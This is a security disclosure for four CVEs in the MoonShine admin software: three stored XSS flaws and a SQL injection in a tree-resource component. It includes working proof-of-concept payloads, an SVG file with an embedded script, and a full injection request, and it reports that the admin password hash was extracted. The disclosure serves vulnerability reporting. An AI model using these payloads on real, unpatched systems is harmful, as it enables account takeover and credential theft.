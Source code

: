 # MoonShine Software Vulnerability Disclosure
Author: Giacomo Lenzini - GiacoLenzo2109
## CVE-2025-51487 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a payload using "javascript:", instead of the expected HTTPS protocol, in the CutCode *Link* parameter when creating/updating a new Article.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The XSS is related to the creation of a new article:  
1. Under the sidebar: *Blog -> Articles*

2. Under *Link -> CutCode* insert the following payload under: `javascript:alert("XSS")`
![/images/CVE-2025-51487_1.png](/images/CVE-2025-51487_1.png)


3. Complete all other fields and save

4. Load all articles and check for your last article saved. Under the link field you will see your payload. Click on it, a popup will be opened showing the message "XSS"
![/images/CVE-2025-51487_2.png](/images/CVE-2025-51487_2.png)
![/images/CVE-2025-51487_3.png](/images/CVE-2025-51487_3.png)

## CVE-2025-51488 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.4, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a malicious payload in the *Name* parameter when creating a new Admin.
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The issue is related to the function to add a new Admin.  

1. Under the Sidebar "System" tab: *Admins -> Create*

2. Insert the following payload under the *Name* input field: `<img src=x onerror=alert("XSS")>`
![/images/CVE-2025-51488_1.png](/images/CVE-2025-51488_1.png)

3. Save

4. Under the sidebar select *Blog -> Articles*: now a popup will be opened showing the message "XSS"  
![/images/CVE-2025-51488_2.png](/images/CVE-2025-51488_2.png)

## CVE-2025-51489 - Reflected XSS via Unrestriced File Upload
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to upload a malicious SVG file in *Files -> Thumbnail* when creating/updating an Article and correctly execute arbitrary JavaScript in the victim's browser when the file link is opened by the victim.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
When creating a new Article (*Blog -> Articles*), an attacker could upload the following SVG under *Files -> Thumbnail* field.
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```
![/images/CVE-2025-51489_1.png](/images/CVE-2025-51489_1.png)
![/images/CVE-2025-51489_2.png](/images/CVE-2025-51489_2.png)


## CVE-2025-51510 - SQL Injection
### Description
MoonShine was discovered to contain a SQL injection vulnerability via the Data parameter under the Blog module when using the moonshine-tree-resource component. An example of the use of this vulnerable component can be found under the public MoonShine Software demo based on MoonShine Software 3.12.5 (https://github.com/moonshine-software/demo-project - commit 72a1d80bf23de6c3457205630eb25409432bdbe0).

The vulnerable component is the following https://github.com/lee-to/moonshine-tree-resource (version < 2.0.2).
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
Vulnerable SQLi request, injecting a payload inside the *data* request field that shows the database version.
```
POST /admin/category-resource/sortable HTTP/1.1
Host: localhost
Content-Length: 431
sec-ch-ua-platform: "macOS"
X-XSRF-TOKEN: <REPLACE>
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuLTeqJXF3L06Er3R
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/admin/resource/category-resource/category-index-page
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: XSRF-TOKEN=<REPLACE>; laravel_session=<REPLACE>

------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="parent"


------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="index"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="data"

(SELECT @@version)
------WebKitFormBoundaryuLTeqJXF3L06Er3R--
```

Here an example of the dumped db version:
![/images/CVE-2025-51510_1.png](/images/CVE-2025-51510_1.png)

Using the attached Python script (CVE-2025-51510.py), it was possible to extract Admin hash from *moonshine_users* table.

The following image shows the Admin hash correctly dumped (from moonshine_users table) character by character:
![/images/CVE-2025-51510_2.png](/images/CVE-2025-51510_2.png)


